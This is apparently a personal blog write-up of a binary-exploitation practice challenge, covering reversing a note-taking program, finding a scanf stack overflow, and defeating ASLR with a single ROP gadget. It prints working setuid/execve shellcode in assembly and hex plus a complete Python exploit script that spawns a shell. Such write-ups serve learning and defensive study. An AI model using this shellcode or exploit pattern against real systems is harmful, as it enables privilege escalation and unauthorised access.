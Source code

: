 ```yaml
---
layout: post
title: "Hacking a simple binary"
date: 2023-11-19 16:27:00 +0200
categories: Binary-Exploitation
---
```


# Initial setup and enumeration
After downloading the __challenge_1__ executable and modifying the file permissions, I ran the program to see what it does.

![Checking for binary defenses with file.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/0.png)

![Running the program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/1.png)

The program offers three options:
*	Creating a note.
*	Reading all the created notes.
*	Exiting the program.

![Testing functionality in target program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/3.png)
 
I proceeded to check for low-hanging fruit; Format string bugs, Buffer Overflows (BoF), etc.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/5.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/4.png)

The program seemed to be susceptible to BoF. Next, I proceeded to examine what binary exploit mitigations were in place.


![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/6.png)

I noted that there was no stack canary, the stack was executable, and no Position Independent Code. This may aid my exploitation attempts at a later stage. Moreover, I decided to leave ASLR enabled on my machine to challenge myself further.

# Reversing
To conduct further investigation, I opened the executable in GDB and Ghidra. On inspection of GDB output, I found that the executable was not compiled with symbols. 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/1.png)

So, I started from the top, __libc_start_main__. Specifically, as the first parameter of the function is usually the main function, I concluded that it was the best place to start, considering that the binary didn’t seem very large.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/2.png)

From there, it was relatively easy to determine the function which would be called whenever a note was created. Upon inspection of the function in question, the cause of the vulnerability was made clear.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/3.png)

That is, the use of __scanf()__, an unsafe function. As it does no bounds-checking, the bounds of the 206-byte buffer could be written past. Using the payload from before, and a breakpoint on the address of the ret instruction, I was able to confirm that the top of the stack before returning from the function was 0x41 (A). 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/5.png)

Using the following payload, I was able to confirm that I could control the saved return address: ```python3 -c “print('1\n')+('A'*216)+('C'*8))” > ./test```

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/7.png)

(I previously ran the executable with ```r < test```, so restarting the program in GDB invoked the same piped input in the above screenshot.)
I used 216 A’s in the payload, as it would take 208 bytes to fill every byte of the buffer, and a further 8 to overwrite the saved base pointer.

# Exploitation
As the program was being run on a system with ASLR enabled, the simple stack-based buffer overflow would not work. This meant I would need to use a ROP chain. My first few attempts involved using Ropper to find gadgets in the Libc shared object library, but that did not work as a result of ASLR. The only addresses that did not seem to change with each new instance of the running program were the addresses of the gadgets found at the offsets of the code contained within the __Challenge_1__ binary.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/2.png)

I thought to use the gadget as shown in the above screenshot for a ret2libc-style exploit, but that did not work, as the address of __system()__ would change with each instance of the application being launched.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/3.png)

Then I had the thought to use a gadget that would essentially pop RSP’s value into RIP, such that if I were to place shellcode on the stack, I could execute it by redirecting RIP to it.
There were some gadgets I considered chaining together to achieve this, such as the following;

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/8.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/7.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/6.png)

However, after stepping away for a bit, I found a simple solution which only required a single gadget. I discovered this attack vector by investigating the rest of the code contained within the function.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/91.png)

The contents of the buffer are copied to the address stored at the address stored in RDI (I.e, the first parameter passed to the function). This is likely some variable in the caller function, but I noted that I could use it, nonetheless. In addition, RAX is used as the base register for the copy operation. That would work well with the following gadget I found when using Ropper on the __Challenge_1__ binary:

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/94.png)

I encountered some sort of error when using 0x40110c as the returned address with which I would overwrite the saved return address on the stack. For some reason, the address overwrite would not change the value of the saved address overwrite. However, by changing the last byte of the address, the overwrite would proceed as expected. I managed to solve the problem by ering the gadget address, such that the address used would be of the prior instruction, such that the last byte is anything other than 0x0c.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/95.png)

As the prior instruction was benign in relation to the intention, it would work (I.e because EDI’s value is not crucial to the exploit succeeding, its value being ered would not present any unexpected behavior).
With the attack vector mapped out, I decided to write some shellcode, as it was the only piece of the exploit that was absent.
The result was the following:

```
section .data 
section .bss
section .text

global _start

_start:
    jmp shellString
pwn:
    ; setuid(0) - GG if setuid :)
    xor rax, rax
    xor rdi, rdi
    mov al, 0x69
    syscall

    ; execve("/bin/sh", 0x0, 0x0)
    xor rax, rax
    xor rdx, rdx
    xor rsi, rsi
    xor rcx, rcx
    mov al, 0x3B
    pop rdi
    mov rdi, [rdi]
    push rdi
    push rsp
    pop rdi
    mov BYTE [rdi + 7], cl
    syscall

shellString:
    call pwn
    sh dq "/bin/sh"
```

Finally, the resultant exploit code was as follows:

```
from struct import pack
from os import system

shellcode = b"\xeb\x24\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xc0\x48\x31"
shellcode += b"\xd2\x48\x31\xf6\x48\x31\xc9\xb0\x3b\x5f\x48\x8b\x3f\x57\x54\x5f\x88"
shellcode += b"\x4f\x07\x0f\x05\xe8\xd7\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

return_addr = pack( "<L", 0x401107 )

target = "./challenge_1"
payload = ( b'1\n' ) + shellcode + ( b'A' * 166 ) + return_addr


def main():
    with open( "payload", "wb+" ) as f:
        f.write( payload )

    system( f"(cat payload; printf '\n' ;cat) | {target}" )

if __name__ == "__main__":
    main()
```

When run, I observed that the exploit worked as intended, and I successfully managed to get a shell!

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/97.png)





